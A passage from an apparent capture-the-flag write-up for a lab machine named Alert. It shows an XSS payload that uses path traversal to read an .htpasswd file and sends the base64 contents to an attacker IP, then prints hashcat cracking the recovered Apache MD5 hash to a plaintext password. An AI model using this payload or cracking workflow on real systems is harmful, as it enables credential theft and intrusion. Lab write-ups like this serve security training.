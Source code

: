 ```html
    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>

```

We see that the location of the file is at `/var/www/statistics.alert.htb/.htpasswd`. Let's get it.

```js
<script>
fetch("/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.10.16.8/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```

After decoding the string we got this.

```text
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

We got credentials, let's crack the hash.

```terminal
hashcat hashes.txt rockyou.txt -m 1600
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
Time.Started.....: Fri Dec 06 10:09:15 2024 (18 secs)
Time.Estimated...: Fri Dec 06 10:09:33 2024 (0 secs)
Kernel.Feature...: Pure Kernel
```